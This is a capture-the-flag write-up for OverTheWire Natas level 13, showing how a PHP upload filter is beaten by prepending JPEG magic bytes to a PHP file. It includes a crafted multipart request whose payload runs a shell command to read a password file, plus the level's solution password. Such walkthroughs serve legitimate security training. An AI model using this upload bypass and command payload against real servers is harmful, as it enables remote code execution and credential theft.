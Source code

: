 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 13"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 13 > Level 14

Another file upload.

![natas13-01](/img/otw-natas/natas13-01.png)

```
[...]
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

"For security reasons, we now only accept image files!" Damn!

Only one thing has changed since the last level, the addition of this check. Obviously this is what we have to defeat.

```
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

The [documentation](http://php.net/manual/en/function.exif-imagetype.php) on this says it determines the file type by reading the 'first bytes' of the file. A php file will still execute with garbage outside of the `<?php ?>` tags, so we just need to find what values to prepend to our previous solution.

A [comment](http://php.net/manual/en/function.exif-imagetype.php#113253) on that page says we just need `FF D8` to identify the file as a `jpg`, but it didn't work for me. Looking into it further, I found [this site](http://www.filesignatures.net) which says we need four bytes - `FF D8 FF E0`.

Save the PHP string we used in the previous level to a file and add the special sauce in a hex editor (`hexedit` shown).

![natas13-02](/img/otw-natas/natas13-02.png)

Upload the file and modify the POST request as in the previous level to our own value for `filename`.

```
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="filename"

giantburrito.php
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="uploadedfile"; filename="natas13jpg.php"

����<?php echo exec("cat /etc/natas_webpass/natas14"); ?>
-----------------------------889891975953420225799738043--
```

```
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/ve7evh8ayr.php">upload/ve7evh8ayr.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success. Ignore the four bytes we added and you've got the password.

![natas13-03](/img/otw-natas/natas13-03.png)

Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
